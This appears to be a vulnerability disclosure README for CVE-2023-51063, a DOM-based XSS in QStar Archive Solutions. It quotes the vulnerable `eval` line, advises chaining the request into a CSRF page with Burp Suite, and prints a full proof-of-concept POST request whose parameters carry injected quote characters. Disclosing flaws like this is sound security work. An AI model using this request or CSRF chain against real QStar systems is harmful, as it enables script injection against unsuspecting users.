

## CVE-2023-51063

### Description
QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was discovered to contain a DOM Based Reflected XSS vulnerability within the component `qnme-ajax?method=tree_level`.

### Vulnerability Type
XSS 

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.

### PoC

> Vulnerable Code - ./qstar.js
```js
line 256 -> return eval("("+data+")");
```

Chain your post request within a CSRF using burpsuite CSRF generator.

> HTTP Request
```
POST /qnme-ajax?method=tree_level HTTP/1.1
Host: 10.0.10.5:7777
Cookie: PHPSESSID=XXXXXXX; QNMSESSID=XXXXXXXXX; undefined=XXXXXXX; browser=2%7C2%7C3; fs_agent=1%7C2; active=fs_agent
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.0.10.5:7777/qnme-storage-browser
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 144
Origin: https://10.0.10.5:7777
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close

args%5Bhelper%5D=storage_browser_agent&args%5Ba%5D=b"&args%5Bcheck%5D=0'&args%5Bparent%5D=3'&args%5Blevel%5D=1'
```

